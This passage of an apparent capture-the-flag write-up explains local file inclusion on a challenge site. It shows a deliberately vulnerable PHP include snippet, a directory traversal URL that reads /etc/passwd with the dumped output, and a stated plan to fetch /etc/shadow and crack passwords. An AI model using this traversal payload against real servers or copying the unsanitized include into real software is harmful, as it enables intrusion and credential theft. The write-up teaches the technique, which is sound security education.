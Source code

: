 <p>Can it be a hint? Maybe the code is looking for a file in the server named just as in our input. If that's the case and code is not properly implemented, it can be vulnerable to <b>local file intrusion</b> attack. </p>

<p><b>LFI</b> occurs, when programmer does not correctly sanitaze the page include, which allows an attack to inject directory traversal characters and get system infromation essential to further exploit the server. Here you can see an example of such <b>bad code</b>. </p>

{% highlight php %}
<?php
 $file = $_GET['f'];
 if(isset($file))
 {
     include("$file");
 }
 else
 {
     include("index.php");
 }
?>
{% endhighlight %}

<p>As we now know the basics, let's try to get some files using this attack and see if it works. First one - <b>/etc/passwd</b>. </p>

{% highlight html %}
https://mindreader.web.ctfcompetition.com/?f=..%2F..%2F..%2F..%2Fetc%2Fpasswd

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-timesync:x:100:103:systemd Time Synchronization,,,:/run/systemd:/bin/false
systemd-network:x:101:104:systemd Network Management,,,:/run/systemd/netif:/bin/false
systemd-resolve:x:102:105:systemd Resolver,,,:/run/systemd/resolve:/bin/false
systemd-bus-proxy:x:103:106:systemd Bus Proxy,,,:/run/systemd:/bin/false
{% endhighlight %}

<p>Great, we got it! But what can we do with it, there's no flag here so we have to keep looking further. I came with idea to grab <b>/etc/shadow</b> and then crack the passwords. </p>
